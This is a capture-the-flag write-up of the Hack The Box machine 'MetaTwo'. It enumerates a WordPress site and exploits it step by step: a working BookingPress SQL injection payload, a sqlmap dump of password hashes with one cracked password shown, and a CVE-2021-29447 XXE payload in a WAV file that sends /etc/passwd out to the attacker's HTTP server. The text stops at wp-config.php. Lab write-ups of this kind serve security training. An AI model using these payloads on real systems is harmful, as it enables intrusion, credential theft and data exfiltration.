

Meta two#
Enum#
# Nmap 7.93 scan initiated Tue Dec 6 21:16:19 2022 as: nmap -sC -sV -oN scans/nmap.initial 10.10.11.186
Nmap scan report for 10.10.11.186
Host is up (0.031s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open ftp?
| fingerprint-strings:
| GenericLines:
| 220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
| Invalid command: try being more creative
|_ Invalid command: try being more creative
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
| 256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_ 256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open http nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=12/6%Time=638FB12F%P=aarch64-unknown-linux-gnu%
SF:r(GenericLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:1
SF:0\.10\.11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\
SF:x20creative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cr
SF:eative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 6 21:19:49 2022 -- 1 IP address (1 host up) scanned in 209.88 seconds
FTP Banner
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
A get to http://11.10.11.186 responds with a 302 redirect to metapress.htb, so we add that to our hosts file.
robots.txt
curl http://metapress.htb/robots.txt
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Sitemap: http://metapress.htb/wp-sitemap.xml
Wappalyzer

It’s Wordpress 5.6.2 with PHP 8.0.24, let’s run wpscan
wpscan --url http://metapress.htb 2 ⨯
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.22
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://metapress.htb/ [10.10.11.186]
[+] Started: Sun Jan 15 11:33:24 2023
Interesting Finding(s):
[+] Headers
| Interesting Entries:
| - Server: nginx/1.18.0
| - X-Powered-By: PHP/8.0.24
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] robots.txt found: http://metapress.htb/robots.txt
| Interesting Entries:
| - /wp-admin/
| - /wp-admin/admin-ajax.php
| Found By: Robots Txt (Aggressive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://metapress.htb/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordress_pingback_access/
[+] WordPress readme found: http://metapress.htb/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://metapress.htb/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
| Found By: Rss Generator (Passive Detection)
| - http://metapress.htb/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
| - http://metapress.htb/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
[+] WordPress theme in use: twentytwentyone
| Location: http://metapress.htb/wp-content/themes/twentytwentyone/
| Last Updated: 2022-11-02T00:00:00.000Z
| Readme: http://metapress.htb/wp-content/themes/twentytwentyone/readme.txt
| [!] The version is out of date, the latest version is 1.7
| Style URL: http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1
| Style Name: Twenty Twenty-One
| Style URI: https://wordpress.org/themes/twentytwentyone/
| Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Css Style In Homepage (Passive Detection)
| Confirmed By: Css Style In 404 Page (Passive Detection)
|
| Version: 1.1 (80% confidence)
| Found By: Style (Passive Detection)
| - http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1, Match: 'Version: 1.1'
[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:02 <=========================> (137 / 137) 100.00% Time: 00:00:02
[i] No Config Backups Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Sun Jan 15 11:33:29 2023
[+] Requests Done: 141
[+] Cached Requests: 36
[+] Data Sent: 41.071 KB
[+] Data Received: 70.609 KB
[+] Memory used: 238.469 MB
[+] Elapsed time: 00:00:04
dirsearch
dirsearch -u http://metapress.htb
_|. _ _ _ _ _ _|_ v0.4.2
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Output File: /home/blnkn/.dirsearch/reports/metapress.htb/_23-01-15_11-35-45.txt
Error Log: /home/blnkn/.dirsearch/logs/errors-23-01-15_11-35-45.log
Target: http://metapress.htb/
[11:35:46] Starting:
[11:35:57] 200 - 633B - /.htaccess
[11:36:23] 301 - 0B - /0 -> http://metapress.htb/0/
[11:36:31] 301 - 0B - /About -> http://metapress.htb/about-us/
[11:36:42] 301 - 0B - /New%20folder%20(2) -> http://metapress.htb/New%20folder%20(2
[11:37:01] 301 - 0B - /A -> http://metapress.htb/about-us/
[11:37:01] 301 - 0B - /a -> http://metapress.htb/about-us/
[11:37:01] 301 - 0B - /ab/ -> http://metapress.htb/about-us/
[11:37:02] 301 - 0B - /about-us -> http://metapress.htb/about-us/
[11:37:02] 301 - 0B - /about -> http://metapress.htb/about-us/
[11:37:06] 301 - 0B - /actuator/events -> http://metapress.htb/events/
[11:37:09] 302 - 0B - /admin -> http://metapress.htb/wp-admin/
[11:37:11] 301 - 0B - /admin. -> http://metapress.htb/admin
[11:37:12] 302 - 0B - /admin/ -> http://metapress.htb/wp-admin/
[11:37:51] 301 - 0B - /asset.. -> http://metapress.htb/asset
[11:37:51] 301 - 0B - /atom -> http://metapress.htb/feed/atom/
[11:38:02] 301 - 0B - /c -> http://metapress.htb/cancel-appointment/
[11:38:20] 302 - 0B - /dashboard -> http://metapress.htb/wp-admin/
[11:38:31] 301 - 0B - /e -> http://metapress.htb/events/
[11:38:33] 301 - 0B - /engine/classes/swfupload//swfupload_f9.swf -> http://metapress.htb/engine/classes/swfupload/swfupload_f9.swf
[11:38:34] 301 - 0B - /engine/classes/swfupload//swfupload.swf -> http://metapress.htb/engine/classes/swfupload/swfupload.swf
[11:38:36] 301 - 0B - /events -> http://metapress.htb/events/
[11:38:38] 301 - 0B - /extjs/resources//charts.swf -> http://metapress.htb/extjs/resources/charts.swf
[11:38:39] 301 - 0B - /feed -> http://metapress.htb/feed/
[11:38:47] 301 - 0B - /h -> http://metapress.htb/hello-world/
[11:38:48] 301 - 0B - /hello -> http://metapress.htb/hello-world/
[11:38:49] 301 - 0B - /html/js/misc/swfupload//swfupload.swf -> http://metapress.htb/html/js/misc/swfupload/swfupload.swf
[11:38:54] 301 - 0B - /index.php -> http://metapress.htb/
[11:38:55] 301 - 0B - /index.php/login/ -> http://metapress.htb/login/
[11:39:05] 200 - 19KB - /license.txt
[11:39:09] 302 - 0B - /login -> http://metapress.htb/wp-login.php
[11:39:09] 302 - 0B - /login/ -> http://metapress.htb/wp-login.php
[11:39:09] 301 - 0B - /login.wdm%2e -> http://metapress.htb/login.wdm
[11:39:09] 301 - 0B - /login.wdm%20 -> http://metapress.htb/login.wdm
[11:39:39] 301 - 0B - /phpmyadmin!! -> http://metapress.htb/phpmyadmin
[11:39:52] 301 - 0B - /public.. -> http://metapress.htb/public
[11:39:53] 200 - 7KB - /readme.html
[11:39:53] 301 - 0B - /rating_over. -> http://metapress.htb/rating_over
[11:39:57] 200 - 113B - /robots.txt
[11:39:57] 301 - 0B - /rss -> http://metapress.htb/feed/
[11:39:58] 301 - 0B - /s -> http://metapress.htb/sample-page/
[11:39:58] 301 - 0B - /sample -> http://metapress.htb/sample-page/
[11:40:02] 301 - 0B - /servlet/hello -> http://metapress.htb/hello-world/
[11:40:08] 302 - 0B - /sitemap.xml -> http://metapress.htb/wp-sitemap.xml
[11:40:13] 301 - 0B - /static.. -> http://metapress.htb/static
[11:40:18] 301 - 0B - /t -> http://metapress.htb/thank-you/
[11:40:36] 301 - 169B - /wp-admin -> http://metapress.htb/wp-admin/
[11:40:37] 301 - 169B - /wp-content -> http://metapress.htb/wp-content/
[11:40:37] 409 - 3KB - /wp-admin/setup-config.php
[11:40:37] 302 - 0B - /wp-admin/ -> http://metapress.htb/wp-login.php?redirect_to=http%3A%2F%2Fmetapress.htb%2Fwp-admin%2F&reauth=1
[11:40:37] 400 - 1B - /wp-admin/admin-ajax.php
[11:40:37] 200 - 1KB - /wp-admin/install.php
[11:40:37] 200 - 0B - /wp-config.php
[11:40:38] 200 - 0B - /wp-content/
[11:40:38] 403 - 555B - /wp-content/uploads/
[11:40:38] 403 - 555B - /wp-content/upgrade/
[11:40:38] 301 - 169B - /wp-includes -> http://metapress.htb/wp-includes/
[11:40:38] 403 - 555B - /wp-includes/
[11:40:39] 200 - 0B - /wp-includes/rss-functions.php
[11:40:39] 200 - 0B - /wp-cron.php
[11:40:39] 200 - 578B - /wp-json/wp/v2/users/
[11:40:39] 200 - 7KB - /wp-login.php
[11:40:39] 302 - 0B - /wp-signup.php -> http://metapress.htb/wp-login.php?action=register
[11:40:40] 200 - 91KB - /wp-json/
[11:40:41] 405 - 42B - /xmlrpc.php
Task Completed
index.htaccess
# BEGIN WordPress
# The directives (lines) between "BEGIN WordPress" and "END WordPress" are
# dynamically generated, and should only be modified via WordPress filters.
# Any changes to the directives between these markers will be overwritten.
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteRule .* - [E=HTTP_AUTHORIZATION:%{HTTP:Authorization}]
RewriteBase /
RewriteRule ^index\.php$ - [L]
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . /index.php [L]
RewriteCond %{REQUEST_URI} !^/wp-admin [NC]
RewriteCond %{QUERY_STRING} author=\d
RewriteRule ^ - [L,R=403]
</IfModule>
# END WordPress
There’s a wp users api thing
curl -s http://metapress.htb/wp-json/wp/v2/users/ |jq .
[
{
"id": 1,
"name": "admin",
"url": "http://metapress.htb",
"description": "",
"link": "http://metapress.htb/author/admin/",
"slug": "admin",
"avatar_urls": {
"24": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=24&d=mm&r=g",
"48": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=48&d=mm&r=g",
"96": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=96&d=mm&r=g"
},
"meta": [],
"_links": {
"self": [
{
"href": "http://metapress.htb/wp-json/wp/v2/users/1"
}
],
"collection": [
{
"href": "http://metapress.htb/wp-json/wp/v2/users"
}
]
}
}
]
There’s a bunch of endpoints, some return 401
curl -s http://metapress.htb/wp-json|jq . |grep wp-json|awk '{print $2}'|tr -d '"'| tee endpoints
http://metapress.htb/wp-json/
http://metapress.htb/wp-json/batch/v1
http://metapress.htb/wp-json/oembed/1.0
http://metapress.htb/wp-json/oembed/1.0/embed
http://metapress.htb/wp-json/oembed/1.0/proxy
http://metapress.htb/wp-json/wp/v2
http://metapress.htb/wp-json/wp/v2/posts
http://metapress.htb/wp-json/wp/v2/pages
http://metapress.htb/wp-json/wp/v2/media
http://metapress.htb/wp-json/wp/v2/blocks
http://metapress.htb/wp-json/wp/v2/types
http://metapress.htb/wp-json/wp/v2/statuses
http://metapress.htb/wp-json/wp/v2/taxonomies
http://metapress.htb/wp-json/wp/v2/categories
http://metapress.htb/wp-json/wp/v2/tags
http://metapress.htb/wp-json/wp/v2/users
http://metapress.htb/wp-json/wp/v2/users/me
http://metapress.htb/wp-json/wp/v2/comments
http://metapress.htb/wp-json/wp/v2/search
http://metapress.htb/wp-json/wp/v2/block-types
http://metapress.htb/wp-json/wp/v2/settings
http://metapress.htb/wp-json/wp/v2/themes
http://metapress.htb/wp-json/wp/v2/plugins
http://metapress.htb/wp-json/wp/v2/block-directory/search
http://metapress.htb/wp-json/wp-site-health/v1
http://metapress.htb/wp-json/wp-site-health/v1/tests/background-updates
http://metapress.htb/wp-json/wp-site-health/v1/tests/loopback-requests
http://metapress.htb/wp-json/wp-site-health/v1/tests/dotorg-communication
http://metapress.htb/wp-json/wp-site-health/v1/tests/authorization-header
http://metapress.htb/wp-json/wp-site-health/v1/directory-sizes
ffuf -w ./endpoints -u "FUZZ" -x http://127.0.0.1:8080 -fc 401
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.5.0 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : FUZZ
:: Wordlist : FUZZ: ./endpoints
:: Follow redirects : false
:: Calibration : false
:: Proxy : http://127.0.0.1:8080
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
:: Filter : Response status: 401
________________________________________________
http://metapress.htb/wp-json/wp/v2/posts [Status: 200, Size: 2187, Words: 55, Lines: 1, Duration: 481ms]
http://metapress.htb/wp-json/wp/v2/media [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 483ms]
http://metapress.htb/wp-json/wp/v2/tags [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 485ms]
http://metapress.htb/wp-json/wp/v2/taxonomies [Status: 200, Size: 730, Words: 1, Lines: 1, Duration: 486ms]
http://metapress.htb/wp-json/wp/v2/blocks [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 488ms]
http://metapress.htb/wp-json/wp/v2/types [Status: 200, Size: 1433, Words: 2, Lines: 1, Duration: 489ms]
http://metapress.htb/wp-json/wp-site-health/v1 [Status: 200, Size: 1689, Words: 1, Lines: 1, Duration: 669ms]
http://metapress.htb/wp-json/wp/v2/categories [Status: 200, Size: 1168, Words: 1, Lines: 1, Duration: 704ms]
http://metapress.htb/wp-json/wp/v2/comments [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 823ms]
http://metapress.htb/wp-json/oembed/1.0 [Status: 200, Size: 1632, Words: 50, Lines: 1, Duration: 877ms]
http://metapress.htb/wp-json/wp/v2 [Status: 200, Size: 89223, Words: 4300, Lines: 1, Duration: 887ms]
http://metapress.htb/wp-json/wp/v2/statuses [Status: 200, Size: 184, Words: 1, Lines: 1, Duration: 934ms]
http://metapress.htb/wp-json/wp/v2/search [Status: 200, Size: 2505, Words: 10, Lines: 1, Duration: 942ms]
http://metapress.htb/wp-json/wp/v2/users [Status: 200, Size: 578, Words: 1, Lines: 1, Duration: 957ms]
http://metapress.htb/wp-json/ [Status: 200, Size: 93427, Words: 4351, Lines: 1, Duration: 1140ms]
http://metapress.htb/wp-json/wp/v2/pages [Status: 200, Size: 46600, Words: 1468, Lines: 1, Duration: 1204ms]
:: Progress: [30/30] :: Job [1/1] :: 55 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
Found no vhost
gobuster vhost -u metapress.htb -w /usr/share/seclists/Discovery/DNS/namelist.txt
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://metapress.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/DNS/namelist.txt
[+] User Agent: gobuster/3.4
[+] Timeout: 10s
[+] Append Domain: false
===============================================================
2023/01/15 12:02:32 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 151210 / 151266 (99.96%)
===============================================================
2023/01/15 12:20:49 Finished
===============================================================
Looking at the html head of the site seems to be using bookingpress 1.0.10
And there is an Unauthenticated SQLi CVE for this.
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
This needs very little addaptation, we can get an existing category_id from the api, even though it will even work with one that doesn’t exist, and the _wpnonce can be found on the events page source.
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=4b57e00f58&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'|jq .
[
{
"bookingpress_service_id": "10.5.15-MariaDB-0+deb11u1",
"bookingpress_category_id": "Debian 11",
"bookingpress_service_name": "debian-linux-gnu",
"bookingpress_service_price": "$1.00",
"bookingpress_service_duration_val": "2",
"bookingpress_service_duration_unit": "3",
"bookingpress_service_description": "4",
"bookingpress_service_position": "5",
"bookingpress_servicedate_created": "6",
"service_price_without_currency": 1,
"img_url": "http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg"
}
]
Sending the request from burp with the -x / –proxy flag of curl, to save the request as a text file that we can then feed to sqlmap
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: curl/7.86.0
Accept: */*
Content-Length: 185
Content-Type: application/x-www-form-urlencoded
Connection: close
action=bookingpress_front_get_category_services&_wpnonce=4b57e00f58&category_id=33&total_service=asdf
Dumping the user table from the blog db:
sqlmap -r events_sqli.req -p total_service --risk 3 --batch
sqlmap -r events_sqli.req -p total_service --dbs
sqlmap -r events_sqli.req -p total_service --database blog -T wp_users --dump
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url | user_pass | user_email | user_login | user_status | display_name | user_nicename | user_registered | user_activation_key |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1 | http://metapress.htb | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb | admin | 0 | admin | admin | 2022-06-23 17:58:28 | <blank> |
| 2 | <blank> | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb | manager | 0 | manager | manager | 2022-06-23 18:07:55 | <blank> |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
Quickly cracked the password for manager with john
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 130 ⨯
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 ASIMD 4x2])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (?)
1g 0:00:00:41 2.69% (ETA: 13:37:21) 0.02416g/s 10814p/s 13486c/s 13486C/s 19830701..16042008
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session aborted
Now we can log in as manager through the wp-admin portal
CVE-2021-29447#
There’s a feature to upload media files to the server, googling around, we could find the following PoC
There’s even a THM box for this
The wav:
cat newt.wav
RIFFWAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.10.14.122:8000/newt.dtd'>%remote;%init;%trick;] >
The dtd:
cat newt.dtd
<!ENTITY % newt SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://10.10.14.122:8000/?p=%newt;'>" >
The wav fetches the dtd, which then triggers the XXE, in which we:
1 read the file then b64 encode and zlib compress it into the newt variable
2 send the encoded and compressed data as a GET argument back to our attacker controlled server
We serve the dtd and use the same webserver to listen for the incomming GET.
Once we have that going the only thing left to do is to upload the wav into the webapp
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.186 - - [15/Jan/2023 14:01:28] "GET /newt.dtd HTTP/1.1" 200 -
10.10.11.186 - - [15/Jan/2023 14:01:28] "GET /?p=jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw== HTTP/1.1" 200 -
10.10.11.186 - - [15/Jan/2023 14:01:28] "GET /newt.dtd HTTP/1.1" 200 -
10.10.11.186 - - [15/Jan/2023 14:01:29] "GET /?p=jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw== HTTP/1.1" 200 -
Because the the data is also zlib encoded we also need to zlib decode it, using the provided php script
<?php
echo zlib_decode(base64_decode('jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw=='));
And we get our file
php decode.php|tee passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
Checking for existing users,
grep sh$ passwd
root:x:0:0:root:/root:/bin/bash
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
Checking files of interest:
/home/jnelson/.ssh/id_rsa -
/home/jnelson/.bashrc - nothing interesting
/etc/nginx/sites-enabled/default - root /var/www/metapress.htb/blog
/etc/proftpd.conf -
/etc/proftpd/conf.d/personnalises.conf -
/etc/proftpd/proftpd.conf -
/lib/systemd/system/proftpd.service - points to /etc/proftpd/proftpd.conf
/etc/groups -
/etc/hosts - meta2
/etc/mysql/my.cnf - default
/etc/mysql/conf.d/mysql.cnf - [mysql] (empty)
/etc/pure-ftpd.conf -
/etc/pureftpd.passwd -
/etc/pureftpd.pdb -
/etc/pure-ftpd/pure-ftpd.conf -
/etc/resolv.conf - 8.8.8.8
/etc/hostame - meta2
/proc/self/cmdline - php-fpm: pool www
/proc/self/environ -
/var/log/nginx.error_log -
/var/log/proftpd.access_log -
/www/logs/proftpd.system.log -
Because we know the wp site’s path thanks to nginx site-enabled, we can check word-press’s config file, it’s supposed to be at the root of the site
/var/www/metapress.htb/blog/wp-config.php
<?php
